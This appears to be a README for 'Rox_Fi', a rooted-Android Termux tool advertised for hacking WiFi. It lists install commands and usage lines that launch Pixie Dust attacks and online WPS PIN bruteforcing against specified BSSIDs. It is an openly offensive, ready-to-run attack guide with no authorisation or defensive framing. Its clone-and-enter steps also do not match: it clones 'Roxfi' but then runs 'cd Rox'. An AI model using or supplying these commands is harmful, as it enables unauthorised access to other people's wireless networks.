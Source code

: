 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://d.top4top.io/p_2169ndpcg0.jpg"></p>

### Installation :

```bash

$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/piomrox/Roxfi

$ cd Rox

$ chmod +x roxfi.py

$ sudo python roxfi.py --help

```

#### Example : `sudo python roxfi.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxfi.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxfi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

